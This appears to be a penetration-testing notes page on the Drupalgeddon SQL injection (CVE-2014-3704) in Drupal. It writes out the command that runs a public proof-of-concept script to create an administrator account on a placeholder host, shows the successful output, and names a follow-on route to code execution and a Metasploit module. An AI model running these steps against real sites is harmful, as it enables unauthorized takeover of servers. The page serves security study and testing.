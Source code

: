 ```yaml
---
icon: drupal
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2014-3704 (Drupalgeddon)

This flaw can be exploited by leveraging a pre-authentication SQL injection which can be used to upload malicious code or add an admin user. Let's try adding a new admin user with this [PoC](https://www.exploit-db.com/exploits/34992) script. Once an admin user is added, we could log in and enable the `PHP Filter` module to achieve remote code execution.

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992)
{% endhint %}

## Script Execution

{% code title="Command" %}
```bash
python2.7 drupalgeddon.py -t http://drupal.acme.com -u hacker -p pwnd
```
{% endcode %}

{% code title="Output" %}
```bash
<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal.acme.com/?q=node&destination=node
```
{% endcode %}

## Metasploit Module

We could also use the [exploit/multi/http/drupal\_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) Metasploit module to exploit this.
